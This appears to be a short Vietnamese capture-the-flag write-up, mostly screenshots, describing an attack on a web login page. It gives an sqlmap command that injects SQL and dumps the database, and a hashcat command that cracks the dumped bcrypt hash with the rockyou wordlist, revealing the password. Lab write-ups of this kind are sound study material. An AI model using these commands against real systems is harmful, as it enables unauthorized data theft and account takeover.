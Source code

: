 ![image](https://github.com/user-attachments/assets/97b4c5fc-976b-4e5d-b278-bd5feb985d66)

Đây là giao diện của web 

![image](https://github.com/user-attachments/assets/1bd89bef-d1eb-4532-9b2d-a3bf8dd40fa6)

Nhập sai thì ra cái này:

![image](https://github.com/user-attachments/assets/94b190e1-13a0-45d5-8cb2-660429097e38)

Đây là req của nó:

![image](https://github.com/user-attachments/assets/ec589c28-6ae4-4b3e-97ee-99af29bd37db)

Tôi thử recon hết công suất, vừa fuzz, vừa brute, vừa sqlmap:

![image](https://github.com/user-attachments/assets/db087f00-b456-477c-89c6-e9137379fa2b)

Sau 1 lúc thì, ngon, dính sql rồi `sqlmap -r req.txt --batch --level=5 --risk=3 --dump --ignore-code=401` :

![image](https://github.com/user-attachments/assets/994ca5d1-f4d1-4b08-8f44-480d637f4df8)

![image](https://github.com/user-attachments/assets/cf8d25ed-15b1-4c65-be27-c56f581fa444)

![image](https://github.com/user-attachments/assets/32410a4a-c9ff-442c-b1e0-a1c8eb8b5809)

Tôi bị đần, đi vác cái hash ném vào password 

![image](https://github.com/user-attachments/assets/3336014a-ae47-4112-9313-9b25b34e37ea)

Dùng `hashcat.exe -m 3200 ./target/target.txt ./target/rockyou.txt` là ra:

![image](https://github.com/user-attachments/assets/ff6a3647-4fe2-48dd-8f84-6ed548171775)

password123


